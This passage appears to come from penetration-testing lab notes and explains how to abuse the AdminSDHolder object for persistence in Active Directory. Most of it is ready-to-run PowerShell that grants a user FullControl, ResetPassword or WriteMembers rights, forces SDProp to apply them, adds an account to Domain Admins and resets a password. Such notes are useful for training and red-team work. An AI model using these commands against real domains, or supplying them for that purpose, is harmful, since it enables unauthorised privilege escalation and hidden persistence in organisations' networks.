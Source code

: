 ### Exploitation

- With DA privileges (Full Control/Write permissions) on the `AdminSDHolder` object, it can be used as a backdoor/persistence mechanism by adding a user with Full Permissions (or other interesting permissions) to the `AdminSDHolder` object
- In 60 minutes (when `SDPROP` runs), the user will be added with Full Control to the AC of groups like Domain Admins without actually being a member of it

```powershell
# Add FullControl permission for a user to the AdminSDHolder using PowerView as DA
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student572 -Rights All -Verbose

# Using AD Module and Set-ADACL
Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Principal student572 -Verbose

# Other interesting permissions (ResetPassword, WriteMembers) for a user to the AdminSDHolder
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student572 -Rights ResetPassword -Verbose
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student572 -Rights WriteMembers -Verbose

# Run SDProp manually using Invoke-SDPropagator.ps1 to apply permissions immediately
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose

# For Server 2008 and older
Invoke-SDPropagator -taskName FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose

# Check the Domain Admins permission as normal user
# With PowerView
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{ $_.IdentityReference -match 'student572' }

# Using AD Module
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access | ?{ $_.IdentityReference -match 'student572' }
```

#### Abusing FullControl Rights

```powershell
# Using PowerView_dev
Add-DomainGroupMember -Identity "Domain Admins" -Members testda -Verbose

# Using AD Module
Add-ADGroupMember -Identity "Domain Admins" -Members testda
```

#### Abusing ResetPassword Rights

```powershell
# Using PowerView_dev
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose

# Using AD Module
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```
